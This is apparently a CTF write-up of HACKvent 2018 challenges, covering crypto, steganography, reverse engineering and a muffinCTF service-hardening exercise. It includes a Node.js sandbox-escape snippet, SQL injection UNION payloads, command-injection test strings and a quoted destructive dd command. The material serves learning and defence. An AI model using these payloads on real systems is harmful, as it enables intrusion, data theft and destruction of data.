I basically moved the wheel to correspond to the faces provided on the web page and got the following values:

    1585, 1690, 1726, 1701
    1712, 1709, 1692, 1577
    1710, 1684, 1680, 1585
    
After plugging in the values, the flag was revealed:

HV18-5o9x-4geL-7hkJ-wc4A-xp8F

# Day 05: OSINT 1

## Challenge description

Level: Easy

It's all about transparency

Santa has hidden your daily present on his server, somewhere on port 443.

Start on https://www.hackvent.org and follow the OSINT traces.

## Solution

I did a google search of "certificate transparency search".

This brought me to the [Google Transparency Report](https://transparencyreport.google.com/https/certificates?hl=en)

In the field "Search certificates by hostname", I entered "hackvent.org".  I checked the "Include subdomains" box and one of the names listed is:
https://osintiscoolisntit.hackvent.org/

Browsing to that web site I saw:

Congrats 111!!11

HV18-0Sin-tI5S-R34l-lyC0-oo0L

Elite Speak decode: OSINT is really cool

# Day 06: Mondrian

## Challenge description

Level: Easy

Piet'er just opened his gallery to present his pieces to you, they'd make for a great present :)

[Open Gallery](https://hackvent.hacking-lab.com/Mondrian-Gallery/)

## Solution

First, in Firefox, I did "File -> Save Page as..." to get all the png files.
A google search of "piet color code" resulted in [The Piet esoteric programming language](http://www.dangermouse.net/esoteric/piet.html)

I found a version for linux [here](https://www.bertnase.de/npiet/)

To install I ran the following commands:

    sudo apt install libpng++-dev
    sudo apt install libgd-dev
    sudo apt install groff
    ./configure
    make

Decoding can be automated in a short script:

    $ cat day06.sh 
    #!/bin/sh

    rm -f output.txt

    for file in house.png trees.png lake.png sky.png sheep.png
    do
        ./npiet -e 75 $file >> output.txt 2> /dev/null
        echo -n "-" >> output.txt
    done

    ./npiet -e 75 snake.png >> output.txt 2> /dev/null
    echo >> output.txt

    cat output.txt

Running the script outputs the flag:

    $ ./day06.sh 
    HV18H-M4ke-S0m3-R3Al-N1c3-artZ

The flag is: HV18-M4ke-S0m3-R3Al-N1c3-artZ

Elite speak decode: Make some real nice arts

# Day 07: flappy.pl

## Challenge description

Level: Easy

Time for a little game. It's hardy obfuscated, i promise ... ;-)

[Get Flappy](provided/flappy.pl.txt)

## Solution

Initially, I hacked the perl script to allow me to cheat.  It just continued regardless of whether the bird crashed into the wall.

But I wanted to learn more about what the code does, so I ran a de-obfuscater:

    $ perl -MO=Deobfuscate flappy.pl > day07.pl
    flappy.pl syntax OK

The resulting code was much easier to read.  I clipped Flappy's wings and simply output the flag without playing the [game at at all](solutions/day07.pl):
    
    #!/usr/bin/env perl
    $r = sub {
        $M = shift();
        sub {
            $M = $M * 1103515245 + 12345 & 2147483647;
            $M % (shift());
        }
        ;
    }
    ->(42);
    @HASH = unpack('C*', "st\f\cR8vRHq\cEWSFb\cNlUe^\eKkoT\cZk-ru");
    foreach $idx (0 .. 666) {
        $var1 = 20 + &$r(42) and print chr($HASH[$idx / 23] ^ $var1) unless $idx % 23;
    }
    print "\n";

The flag was output:        

HV18-bMnF-racH-XdMC-xSJJ-I2fL

# Day 08: Advent Snail

## Challenge description

Level: Medium

In cyberstan there is a big tradition to backe advents snails during advent.


## Solution

This challenge is a matter of tracing through the image in a spiral pattern.  Fortunately I found an [algorithm implemented in c](https://www.geeksforgeeks.org/print-a-given-matrix-in-spiral-form/).

The only problem is knowing where to start!  There are four corners, and two directions each.  So there was a little brute forcing involved.

I converted the algorithm to python, and rather than update the code to start at different corners, I simply used numpy to rotate and flip the matrix :)

The [resulting code](solutions/day08.py) is a bit long but does the trick.  Go figure, the last image was the one that worked.


I used an online QR decoder to obtain:

HV18-$$nn-@@11-LLr0-B1ne

## Day 09: fake xmass balls

## Challenge description

Level: Medium


A rogue manufacturer is flooding the market with counterfeit yellow xmas balls.They are popping up like everywhere!

Can you tell them apart from the real ones? Perhaps there is some useful information hidden in the fakes...


## Solution

This looks like a steganography challenge which I find very tricky.  It took quite a bit of trial and error, but I finally found the flag with the following steps.

Download and run "Stegsolve":

    java -jar Stegsolve.jar

I combined the two images using the "Subtract" function:

1. Open the original file: File -> Open and select "medium_64.png"
2. Combine the images: Analyze -> Image Combiner and select "medium-64.png"
3. Use the arrow keys to change the operation to "SUB"
4. Save the file as "day09-step1.png"


Convert the image to gray bits:

1. Open the file "day09-step1.png" with stegsolve
2. Click the left arrow to select "Gray bits"
3. Save the file as "day09-step2.png".


Use ImageMagick to negate the colors:

    convert -negate day09-step2.png day09-step3.png    


Crop the image:

    convert day09-step3.png -crop 25x25+20+20 day09-step4.png


Upload the file to the [ZXing decoder online](https://zxing.org/w/decode.jspx)

```
HV18-PpTR-Qri5-3nOI-n51a-42gJ
```

For extra fun, I automated the [solution in python](solution/day09.py)

The flag is: HV18-PpTR-Qri5-3nOI-n51a-42gJ

# Day 10: >_ Run, Node, Run

## Challenge description

Level: Medium

Santa has practiced his nodejs skills and wants his little elves to practice it as well, so the kids can get the web- app they wish for.

He made a little practice- sandbox for his elves. Can you break out?

Location: http://whale.hacking-lab.com:3000/

## Solution

A google search of "nodejs sandbox escape" found this [gem](https://github.com/patriksimek/vm2/issues/32)


Some other helpful links:

- https://github.com/patriksimek/vm2/issues/32
- https://gist.github.com/domenic/d15dfd8f06ae5d1109b0
- https://blog.netspi.com/escape-nodejs-sandboxes/
- https://odino.org/eval-no-more-understanding-vm-vm2-nodejs/
- https://code-maven.com/reading-a-file-with-nodejs

With my new found knowledge, I ran the code to dump the config file:

```
const ForeignObject = this.constructor;
const ForeignFunction = ForeignObject.constructor;
const process = ForeignFunction("return process")();
const require = process.mainModule.require;
var fs = require("fs");
fs.readFileSync('./config.json').toString();
```

Which output the flag: '{\n "flag":"HV18-YtH3-S4nD-bx5A-Nt4G",\n "port":3000\n}\n'

The flag is: HV18-YtH3-S4nD-bx5A-Nt4G

# Day 11: Crypt-o-Math 3.0

## Challenge description

Level: Medium

Last year's challenge was too easy? Try to solve this one, you h4x0r!

    c = (a * b) % p
    c=0x7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2
    p=0xDD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9
    b=0x7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5

finding "a" will give you the flag.

## Solution

Well, it starts off by saying "last year's challenge".  I remember that challenge.
The solution involves using mod inverse.

So the first step is to find the inverse of b mod p, multiple by c and we get a.
In python, using the [cryptomath library](https://inventwithpython.com/cryptomath.py)

```
b_inverse = cryptomath.findModInverse(b, p)
a = (b_inverse * c) % p
```

But when I tried to decode this I got an odd-length strength.  This is strange because the part that decodes is 'HV18'.  But it seemed the string needed to be longer.

Well, thinking about it, if

    c= (a * b) % p

And if:

    if a' = a' + p,

Then, also the following is true:

    c = (a' * b) % p

In other words, there are infinite values of a that satisfy the modulo equation.
It's just a matter of trying some and seeing what works.  I wrote a python program to do this:

```
#!/usr/bin/env python3
import binascii
import cryptomath

c=0x7E65D68F84862CEA3FCC15B966767CCAED530B87FC4061517A1497A03D2
p=0xDD8E05FF296C792D2855DB6B5331AF9D112876B41D43F73CEF3AC7425F9
b=0x7BBE3A50F28B2BA511A860A0A32AD71D4B5B93A8AE295E83350E68B57E5

# c = (a * b) % p
# Find a

# Determine the inverse of b mod p
b_inverse = cryptomath.findModInverse(b, p)

# Find an initial value for a
a = (b_inverse * c) % p

# Find an additional 2000 more values for a
for i in range(2000):
    a_hexstring = '%x' % a
    try:
        msg = binascii.unhexlify(a_hexstring)
    except Exception as e:
        msg = binascii.unhexlify(a_hexstring[:-1])

    if (b'HV18' in msg):
        print('attempt # {}'.format(i))
        print(msg)

    a = a + p
```

The output of the program is:

```
attempt # 0
b'HV18-B\x88\xbb,\xdfa_\xc4Wk%\xba.\xe4\xc7O^\x85\x98\xbak\xbd\xfa\xe8'
attempt # 1337
b'HV18-xLvY-TeNT-YgEh-wBuL-bFfz\x00\x00'
```

The flag is: HV18-xLvY-TeNT-YgEh-wBuL-bFfz


# Day 12: SmartWishList

## Challenge description

Level: Medium

Santa's being really innovative this year!

Send your wishes directly over your favorite messenger (telegram): @smartwishlist_bot

Hint(s): How does the bot differentiate your wishes from other people?

## Solution

This was a tricky one until the hint was released.  In the telegram app, there are settings for username:


The application was vulnerable to SQL injection on the username:



I entered the following:

    ' UNION SELECT table_name,1 FROM information_schema.tables;--

Then "/showwishes" returned a list of the tables:

    COLLATIONS - 1
    COLLATION_CHARACTER_SET_APPLICABILITY - 1
    ...
    SecretStore - 1
    User - 1
    Wish - 1

I then selected the contents of the SecretStore table:

    ' UNION SELECT flag,1 FROM SecretStore;--



This revealed the flag:  HV18-M4k3-S0m3-R34L-N1c3-W15h

Elitespeak decode: "Make some real nice wish"

# Day 13: flappy's revenge

## Challenge Description

Level: medium

There were some rumors that you were cheating at our little game a few days ago ... like godmode, huh?

Well, show me that you can do it again - no cheating this time.

Location: telnet whale.hacking-lab.com 4242

## Solution

I ran the following command to lower the bandwidth of my machine:
```
sudo tc qdisc del dev wlp1s0 root tbf rate 32kbit burst 32kbit latency 400ms
```

Although I don't think was actually needed.  There was so much lag anyways.  I just played the game and got through the whole thing :)

The flag is: HV18-9hYf-LSY1-hWdZ-496n-Mbda

# Day 14: power in the shell

## Challenge Description

Level: medium
 
seems to be an easy one ... or wait, what?

Encrypted flag:

    2A4C9AA52257B56837369D5DD7019451C0EC04427EB95EB741D0273D55

[power.ps1](provided/power.ps1)


## Solution

The encryption function takes a message as input and returns the message squared mod n.  In python, this is: pow(m, 2, n) 

To reverse the encryption, the steps are:

1. Use [factordb](http://factordb.com/index.php?query=5841003248923821029983205516125362074880976378154066185495120324708129) - to get the factors of n: p and q (where n = p * q)
2. Use tonelli-shanks to get the different roots (2 for p, 2 for q)
3. Use chinese remainder theorem to solve congruence relation

Factor db shows the factors of n are:

- 73197682537506302133452713613304371
- 79797652691134123797009598697137499

Using [a python implementation of the tonelli-shanks algorithm](solutions/day14.py) I obtained the roots:

For n, p = 73197682537506302133452713613304371 => roots : 60323539055384968728347976052268104, 12874143482121333405104737561036267

For n, q = 79797652691134123797009598697137499 => roots : 38242661610485681774792830422679373, 41554991080648442022216768274458126


Using [an online impelementation of the chinese remainder theorem](https://www.dcode.fr/chinese-remainder), solve the system:

    x = 60323539055384968728347976052268104 mod 73197682537506302133452713613304371
    x = 38242661610485681774792830422679373 mod 79797652691134123797009598697137499

The result is:
    
    1950193264821848293290734419289624666092325628102847269817934129490521

Convert the result to ascii:

    >>> import binascii
    >>> print(binascii.unhexlify('%x' % 1950193264821848293290734419289624666092325628102847269817934129490521))
    HV18-DzKn-62Qz-dAab-fEou-ImjY
    


I found the following links helpful in the course of solving this:

- [https://en.wikipedia.org/wiki/Quadratic_residue](https://en.wikipedia.org/wiki/Quadratic_residue)
- [https://math.stackexchange.com/questions/633160/modular-arithmetic-find-the-square-root](https://math.stackexchange.com/questions/633160/modular-arithmetic-find-the-square-root)

The flag is: HV18-DzKn-62Qz-dAab-fEou-ImjY

# Day 15: Watch Me

## Challenge description

Level: Hard

Turn on your TV! Santa will broadcast todays flag on his member channel. Can you get it without subscription?

[Get it here](provided/HACKvent-2018_by_the_oneandonly_HaRdLoCk.ipa)

## Solution

After downloading the file, I renamed it to a zip extension and unzipped the contents.  

Using Hopper, I decoded the following areas:

In ViewController.viewDidLoad:

    objc_storeStrong(&r19->flag, @"xQ34V+MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw=");

In string literals:

    db         "uQA\-nM@=1wl\x1EbN!", 0     ; DATA XREF=-[ViewController decryptFlag]+48
    
In ViewController.decryptFlag:    

    if (r0 != 0x0) {
            r20 = &var_50;
            r0 = strlen(&var_50);
            if (r0 >= 0x2) {
                    r21 = 0x1;
                    do {
                            *(int8_t *)(r20 + r21) = *(int8_t *)(r20 + r21) + 0x3;
                            r21 = r21 + 0x1;
                            r0 = strlen(&var_50);
                    } while (r0 > r21);
            }
    }

In short, it uses AES encryption.  The ciphertext is stored in the "flag" variable.  By adding 3 to the bytes of the values that are stored in the db section above, the key is obtained.

Putting it all together:

    #!/usr/bin/env python
    
    from Crypto.Cipher import AES
    import base64
    
    aes_key = 'uQA\-nM@=1wl\x1EbN!'
    
    flag = base64.b64decode('xQ34V+MHmhC8V88KyU66q0DE4QeOxAbp1EGy9tlpkLw=')
    
    aes_key = ''.join([chr(ord(c) + 3) for c in aes_key])
    obj = AES.new(aes_key, AES.MODE_ECB)
    
    print obj.decrypt(flag)

The flag is: HV18-Nc7c-VdEh-pCek-Bw08-jpM3    

# Day 16: Pay 100 Bitcoins ... or find the flag

## Challenge description

Level: Hard

It changed the host. Fortunately it doesn't do the full job ... so there's hope. Get the things straight again and find the flag.

The OS is encrypted, but you know the key: IWillNeverGetAVirus

Download the image here:
or here:

Important:

Pleas visit also day 15, wich is now available too!

## Solution

Import the OVA file into Virtual Box.  In order to boot with a Live CD, first change some settings:

Change from 32-bit to 64-bit:



Add some more RAM:



Add a KALI ISO to the virtual storage:



Now boot the virtual machine and choose the live version of Kali.

First check to see what's on the hard drive:

    # fdisk -l /dev/sda
    Disk /dev/sda: 150 MiB, 157286400 bytes, 307200 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disklabel type: dos
    Disk identifier: 0x00000000
    Device     Boot   Start    End     Sectors  Size   Type
    /dev/sda1  *        63     112454  112392   54.9M  83 Linux
    /dev/sda2       112455     305234  192780   94.1M  83 Linux

Try to mount the partitions:
    
    # mkdir /mnt/sda2
    # mount /dev/sda2 /mnt/sda2
    mount: /mnt/sda2: unknown filesystem type 'crypto_LUKS'.

Ah, LUKS is being used.  Use cryptsetup to open the partition:

    # cryptsetup open /dev/sda2 hackvent
    Enter passphrase for /dev/sda2: IWillNeverGetAVirus

Check the device name and mount it:

    # lvscan
      ACTIVE            '/dev/vg0/root' [88.00 MiB] inherit
    # mkdir /mnt/hackvent
    # mount /dev/vg0/root /mnt/hackvent

Enter the newly mounted filesystem and find the flag:

    # cd /mnt/hackvent
    # cat etc/motd
    Congratulation, you did it!
    
      o______
      |\\-//|
      |//-\\|
      |~~~~~~
      |
      |
      |
    
    Your flag is HV18-622q-gxxe-CGni-X4fT-wQKw

Clean up and unmount everything:
    
    # umount /dev/vg0/root
    # vgchange -an
     0 logical volume(s) in volume group "vg0" now active
    # cryptsetup close hackvent

The flag is: HV18-622q-gxxe-CGni-X4fT-wQKw

# Day 17: Faster Key Exchange

## Challenge Description

Level: Hard

You were somehow able to intercept Santa's traffic.

But it's encrypted. Fortunately, you also intercepted the key exchange and figured out what software he was using.....

    a = 17577019968135092891915317246036083578063875217491307011102321322815719709605741738459191569497548099944025771002530369133716621942963853230082186943938164591230020725702755002287589522851172217336150522367152517270250629688405924844750026155547199020780202996200555426652190631837288299999083335649923708175859594750237448640513280683859296367607523542293538555215282798100455110266565881599829107971869244773384413618546118850868579583095489023778055976570366853411496753062216229293710557686212314300848121614558806328788578096144576605248971916454783615989429937555579437307320472405217413938048149254574677430624 b = 15228628318558071728245462802366236848375416102820239825350329247148900182647243994904519787528142824353837070194785550898962097219309344881183948914850354340893035399529028331238911753358245357848436203268982345430735846016484221944423499956958406189854969330305125479065873712331269870135028162018087451460656203085824963123310757985362748654204595136594184636862693563510767025800252822776154986386637346156842972134635578534633722315375292616298410141343725683471387328655106920310236007034951004329720717533666052625540760911360823548318810161367913281234234193760867208897459774865037319252137821553407707977377 message = jqMYIn4fzSqzIXArwJm/kPitNhf4lwhL0yPRKpF+NYXyPmhoEwNG/k2L5vCZqFWNPvTzisnu93/8uK/PZnnCGg== 
    

[FasterKeyExchange](provided/FasterKeyExchange.py)
    
## Solution

Use modinverse to determine the secret value of x which ultimately leads to the decryption key:

    $ cat day17.py
    #!/usr/bin/env python3.7
    
    from base64 import b64decode
    import cryptomath
    import hashlib
    from Crypto.Cipher import AES
    
    # Given in challenge description
    a = 17577019968135092891915317246036083578063875217491307011102321322815719709605741738459191569497548099944025771002530369133716621942963853230082186943938164591230020725702755002287589522851172217336150522367152517270250629688405924844750026155547199020780202996200555426652190631837288299999083335649923708175859594750237448640513280683859296367607523542293538555215282798100455110266565881599829107971869244773384413618546118850868579583095489023778055976570366853411496753062216229293710557686212314300848121614558806328788578096144576605248971916454783615989429937555579437307320472405217413938048149254574677430624
    b = 15228628318558071728245462802366236848375416102820239825350329247148900182647243994904519787528142824353837070194785550898962097219309344881183948914850354340893035399529028331238911753358245357848436203268982345430735846016484221944423499956958406189854969330305125479065873712331269870135028162018087451460656203085824963123310757985362748654204595136594184636862693563510767025800252822776154986386637346156842972134635578534633722315375292616298410141343725683471387328655106920310236007034951004329720717533666052625540760911360823548318810161367913281234234193760867208897459774865037319252137821553407707977377
    ciphertext = b64decode('jqMYIn4fzSqzIXArwJm/kPitNhf4lwhL0yPRKpF+NYXyPmhoEwNG/k2L5vCZqFWNPvTzisnu93/8uK/PZnnCGg==')
    
    # Given in FasterKeyExchange.py
    g = 3
    p = 0x00e1a540d72bb311db26ea6e58b7dc207cf55d0c3a90d7c1f74e7fcb67c7af097d99c73e002c9266e70cbdf735ebd864ea279a0a4d41dd6537837bfc07d84943a376d163ec20a51dd6073dbfc34cbdce9d88ad22a9bb72f5bb143b5c9e531ab100590b9f97d1e9c7a3dfe7961fd6e86078ad43918b47816925803db47862e5f69c90078c6dc287fc6cf7742a9f1717d828a610fe469c92f34783351b21ac1ec988eae0e16ff4ef89c1a19ccd7e3b5cb0c14e0424dfde338789923013aeb7791e19ba378cb2e0e0b318f46865d438ac53999f69f0ae8045d2ff40821b5fdcb0a3b9942f29a0cd8e55febd0ee9006d936d51335a2e63b6affbed6175e1228a53d6a9
    
    # Rename the a and b to the convention in FasterKeyExchange.py
    y_server = a
    y_client = b
    
    # Determine the mod inverse
    g_inverse = cryptomath.findModInverse(g, p)
    
    # Determine the value of the random x
    x = (g_inverse * y_server) % p
    
    # Taken from FasterKeyExchange.py: determine the key and initialization vector
    key = str((y_client * x) % p)
    iv = key[0:16]
    key = bytes(hashlib.md5(bytes(key, "utf-8")).hexdigest(), "utf-8")
    
    # Create an AES instance using the key and iv
    cipher = AES.new(key, AES.MODE_CBC, iv=bytes(iv, "utf-8"))
    
    # Use the AES cipher to decrypt the message
    cipher_text_bytes = cipher.decrypt(ciphertext)
    
    print(cipher_text_bytes.decode('utf-8'))
    
Running the program:

    $ ./day17.py 
    Congrats! Now take the flag: HV18-DfHe-KE1s-w44y-b3tt-3r!!
    
The flag is: HV18-DfHe-KE1s-w44y-b3tt-3r!!

# Day 18: Be Evil

## Challenge Description

Level: Hard

Only today and for this challenge, please.

    Download [evil.jar](provided/evil.jar)
    java -jar evil.jar

Thanks to scal for the artwork!

## Solution

I solved this challenge two ways:

### Method 1: Reflection

Using the java reflection functions *getDeclaredMethods()* and *getDeclaredFields()*, I learned about the methods available in the classes provided. With a little experimenting, I found the method *eventResult()* in the EvilEvent class.  The function is private, but that does not stop us! :)
  
First I extracted the class files from evil.jar:

    jar -xvf evil.jar

Then I created the file [hackvent2018/evil/Day18.java](solutions/Day18.java):

    package hackvent2018.evil;
    
    import java.lang.reflect.Method;
    
    public class Day18 {
      public static void main(String[] args) throws Exception {
        EvilLoader loader = new EvilLoader(Evilist.class.getClassLoader());
    
        Class evilEventClazz = loader.loadClass("hackvent2018.evil.EvilEvent");
        for (Method method : evilEventClazz.getDeclaredMethods()) {
            if (method.getName().contains("eventResult")) {
                  method.setAccessible(true);
                  String eventResult = (String) method.invoke(null);
                  System.out.println(eventResult);
            }
        }
      }
    }

   
I compiled and ran the hack to grab the flag:

    $ javac hackvent2018/evil/Day18.java 
    $ java hackvent2018.evil.Day18 
    The flag is HV18-ztZB-nusz-r43L-wopV-ircY    
    
### Method 2: De-obfuscation

I used an [online java decompiler service](http://www.javadecompilers.com/) to decompile the java code.  (JDGUI also works well too)

The code was obfuscated - to create readable class files, I added the following main method to the classes:

      public static void main(String [] args) {
        FileOutputStream output;
        try {
            System.out.println(b.length);
            output = new FileOutputStream(new File("EvilAction.class"));
              output.write(b);
              output.close();
        } catch (IOException e) {
        }
      }

I compiled and ran the modified programs to get the actual class files.  Then I repeated the decompilation and got readable source code.  In the file EvilAction.java, there are a couple of interesting lines:

    private byte[] b = new byte[]{-64, 15, 15, 10, 82, 79, 76, 67, 76};
    // ...
    for (String s : System.getenv().keySet()) {
        if (!Arrays.equals(this.b, this.xor(s.getBytes(), NotEvil.b))) continue;    

The bytes of NotEvil can be obtained from the NotEvil.class file (actually a PNG):

    $ xxd NotEvil.png  | head -1
    00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR

Performing the XOR revealed the variable name:

    In [1]: mask = [ -64 + 256, 15, 15, 10, 82, 79, 76, 67, 76]
    In [2]: not_evil = [ 0x89, 0x50, 0x4e, 0x47, 0x0d, 0x0a, 0x1a, 0x0a, 0x00]    
    In [3]: var = ''.join([chr(a ^ b) for a, b in zip(mask, not_evil)])    
    In [4]: print(var)
    I_AM_EVIL

So, the simple way to get the flag is:

    $ export I_AM_EVIL=1
    $ java -jar evil.jar 

The flag is HV18-ztZB-nusz-r43L-wopV-ircY    


## Day 19: PromoCode

## Challenge Description

Level: Hard

*Get your free flag*

Santa is in good mood an gives away flags for free.

[Get vour free flag](provided/promo.html)

Important:

2018-12-19 20:05 CET: A slightly easier challenge has been released. Watch for the changed link above. Respect to those who solved it the 1337-way!

## Solution

This was written in web assembly.  First I downloaded the [promo.wasm](provided/promo_code/promo.wasm) file.  Then I ran the wasmdec tool to decompile:
  
    wasmdec -o promo.c -e promo.wasm

The [output of the decompilation](solutions/promo.c) was quite verbose.  The function that does the decryption is f8(), with the relevant line being:

    local14 = local13 ^ 90;

I re-wrote the code in this function for readability:

    while (counter < strlen(user_input)) {
    
        local13 = *(user_input + counter) && 0xff;
        local14 = local13 ^ 90;
        local17 = local34 + counter << 2; // local_34 = key
        if (local14 != *(void*)(local17)) {  // Bad exit loop
            local48 = 5; // return code of 5 is fail
            break;
        }
        counter = counter + 1;
    }

In other words, user provided input is XOR'ed with 90 and compared to areas of memory.  The areas of memory are offset by intervals of 4.

To get a memory dump I ran wasmdec again with the "-m" flag:

    wasmdec -m promo.wasm

The contents of the dump:

    $ xxd promo.c.mem 
    00000000: 1f65 530c 181f 7a21 0441 3a21 0672 593d  .eS...z!.A:!.rY=
    00000010: 4956 7618 3c43 3a2b 4136 000d 5c74 0000  IVv.<C:+A6..\t..
    00000020: 0d00 0000 6900 0000 3800 0000 6e00 0000  ....i...8...n...
    00000030: 6f00 0000 3700 0000 6b00 0000 2900 0000  o...7...k...)...
    00000040: 0800 0000 3600 0000 2300 0000 1c00 0000  ....6...#.......
    00000050: 6e00 0000 6f00 0000 2e00 0000 0000 0000  n...o...........
    00000060: 4856 3138 2d54 5259 482d 4152 4445 2d52  HV18-TRYH-ARDE-R
    00000070: 5452 595f 4841 5244 5f45 5221 2100 0000  TRY_HARD_ER!!...

Putting this all together into a [small python program](solutions/day19.py):

    #!/usr/bin/env python3
    
    memory = [0x1f, 0x65, 0x53, 0x0c, 0x18, 0x1f, 0x7a, 0x21, 0x04, 0x41, 0x3a, 0x21, 0x06, 0x72, 0x59, 0x3d, 0x49, 0x56, 0x76, 0x18, 0x3c, 0x43, 0x3a, 0x2b, 0x41, 0x36, 0x00, 0x0d, 0x5c, 0x74, 0x00, 0x00, 0x0d, 0x00, 0x00, 0x00, 0x69, 0x00, 0x00, 0x00, 0x38, 0x00, 0x00, 0x00, 0x6e, 0x00, 0x00, 0x00, 0x6f, 0x00, 0x00, 0x00, 0x37, 0x00, 0x00, 0x00, 0x6b, 0x00, 0x00, 0x00, 0x29, 0x00, 0x00, 0x00, 0x08, 0x00, 0x00, 0x00, 0x36, 0x00, 0x00, 0x00, 0x23, 0x00, 0x00, 0x00, 0x1c, 0x00, 0x00, 0x00, 0x6e, 0x00, 0x00, 0x00, 0x6f, 0x00, 0x00, 0x00, 0x2e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x56, 0x31, 0x38, 0x2d, 0x54, 0x52, 0x59, 0x48, 0x2d, 0x41, 0x52, 0x44, 0x45, 0x2d, 0x52, 0x54, 0x52, 0x59, 0x5f, 0x48, 0x41, 0x52, 0x44, 0x5f, 0x45, 0x52, 0x21, 0x21]
    
    x = ''
    index = 32
    
    for i in range(15):
        x = x + chr(memory[index] ^ 90)
        index += 4
    
    print(x)
        
Running the program outputs the promo code: W3b45m1sRlyF45t

Entering the promo code into the web page revealed the flag.

The flag is: HV18-rKRV-Cg2G-jz4B-QrIy-OF9i


# Day 20: I want to play a game

## Challenge Description

Level: Hard

Santa did'nt forget about the games this year! Ready to play?

[Get your game](provided/HaRdvent.nro)

## Solution

The first step was to fire up a switch emulator and observe the output:

    Thank You Mario, But Our Princess is in Another Castle. Encrypt this: f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1

I used cutter/radare2 to view the assembly.  There were many, many functions but also this little piece of (mostly) ASCII:



See how the last byte "\x00" is highlighted?  I'll get to that in a moment.  A google search of "shuffle whip crush squeeze" brought me to the [Spritz](http://people.csail.mit.edu/rivest/pubs/RS14.pdf) cipher.

I found a [python implementation of the Spritz cipher](https://github.com/edwardcunningham/spritz.git) and wrote up a [solution](solutions/day20.py).

    #!/usr/bin/env python3
    
    from spritz import Spritz
    import binascii
    
    key = bytearray(b'shuffle*whip$crush%squeeze\x00')
    
    spritz = Spritz()
    output = spritz.encrypt(key, bytearray.fromhex('f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1'))
    print(output.decode('utf-8'))
    
Notice the extra byte in the key?  That drove me (and many others) nuts.  I only figured that out because somehow who had IDA pro mentioned that API showed passing a key length of 27.

**Bonus**

Giving it is a stream cipher, it can be solved without the key!  The Spritz cipher uses addition (rather than XOR) to encrypt.

The ciphertext can be found shortly before the encryption key in the binary:



Using the known plaintext ("Thank you Mario...") and the ciphertext, the keystream can be retrieved and used to [decrypt the message](solutions/day20_bonus.py):

    #!/usr/bin/env python
    
    import binascii
    
    ciphertext = binascii.unhexlify('a891997b60d8c6dd7ef4334f20f77f4a8c5cffb7443e3498efd93d761cb2d288cf3f97234355d0b8caaacfa54f0ba69de174080b7acb07338398a3a4d8a7a2a3ec7fd935bbfceb392b7141efd247163398264abf8b5315d3f2b934c22788a5b5056c47dba25b5dad4f95bf847320a84e0053feffb4709486f04fbd24c35fcf2b78960f91c262edc12e4480c55cd45582f30f331c91a905')
    provided = 'Thank You Mario, But Our Princess is in Another Castle. Encrypt this: f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1'
    encrypt_this = binascii.unhexlify('f42df92b389fffca59598465c7a51d36082ecfea567a900e5eac9e5e9fb1')
    
    keystream = [(ord(a) - ord(b)) % 256 for a, b in zip(ciphertext, provided)]
    plaintext = ''.join([chr((ord(a) + b) % 256) for a, b in zip(encrypt_this, keystream)])
    print plaintext
    
Thanks to LogicalOverflow for pointing this out!

The flag is: HV18-Wl8b-jSu3-TtHY-ziO4-5ikM
    
# Day 21: muffinCTF

## Challenge description

Level: Hard

DAY 1 Services
--------------------------------------------
      _______
     /       )
    /_____   | ______
   (  '   ) / /    __\   _____
    |.  '| / |     \ |  /     ))
    |____|/  |`-----'  /_____))
              `-----'  `------'

    Name: bakery
    Description:
        Simply the best bakery in town!
        The good smell goes around the streets.
        Make sure that the thieves of the enemy nations cannot steal our bread!
        Maybe you have a method where we can get more bread?
    Creator: muffinx


              / \  _  _  _  / \
              | | / \/ \/ \ | |
          %   | |I| || || |=o | %
          %   | | j_jj_jj_j | | %     v %
        V |   | ||_________|| | | .:,>@<%%
       >@<| ; | | | || || | | | | ~*~ | |%
       *| |:X:| |I| || || | | | |*'|`\|/||   ~@~   *
      ,||/|`|'|_| |_||_||_| |_|,||,|/ |,||Vv,`|',v`|v hjw

    Name: garden
    Description:
        A very beautiful vegetable/fruit garden.
        There is even a pond where there are swimming fish and jumping frogs.
        Fix the defenses, in our past we had attacks with fire arrows.
        Also we are short in potatoes, please get us some more.
    Creator: muffinx


## Solution

My first attempt was to import the OVA image and put it online using NAT network.  Within minutes I got hit with someone running the following on my machine:

    dd if=/dev/urandom of=/tmp/crypted_flag bs=4M

I quickly learned my lesson!  I reverted back to the original image, changed the network to host only and hardened the system.

In general the strategy that worked for me was:

- Revert to previous snapshot
- Boot with network "Host-only adapter"
- Patch the machine with anything new I learned
- Take a snapshot
- Boot with network "NAT network"
- Watch the attacks come in via Wireshark and determine how to fix them
- Repeat!

## Harden system

To harden, I made the following changes.

Remove passwords for all users, add my own user with sudo.
    
Stop backdoor services:

    systemctl stop log
    systemctl stop keep2.service 
    systemctl stop tunn

Disable backdoor services from starting automatically:
 
    systemctl disable log
    systemctl disable keep2.service 
    systemctl disable tunn


## Install helpful apps

Of course I need vim, git and tmux:

    # apt update
    # apt install virtualbox vim git tmux
    # apt upgrade
   
    
## Vulnerabilities

The PHP program included the following vulnerabilities:

1. Injection on Ping command
2. Injection on prize
3. Local file inclusion
4. Backdoor in .php
5  Backdoor in checkbox.php

And similarly I fixed issues in the Python garden program:

1. SQL injection
2. Safe yaml load
3. Message of the day backdoor

Honestly, there were other vulnerabilities that I did not get a chance to record.  Here is some detail of the fixes that I made.

### Injection on ping command

Update the code to the following:

    # Check for valid IP address
    if (preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/', $_GET['ip'])) {
          system('ping -c 1 '.$_GET['ip']);
          die();
    }
  
To test:

    ping 127.0.0.1; uptime
  
### Injection:

    $prize = preg_replace("/[^0-9\.\*\+\-\/\(\)]/", "", $_GET['prize'] );
    eval('echo number_format((('.$prize.')*1.20),2);');

To test:

    10)),2); echo test; system("touch /tmp/hello");#


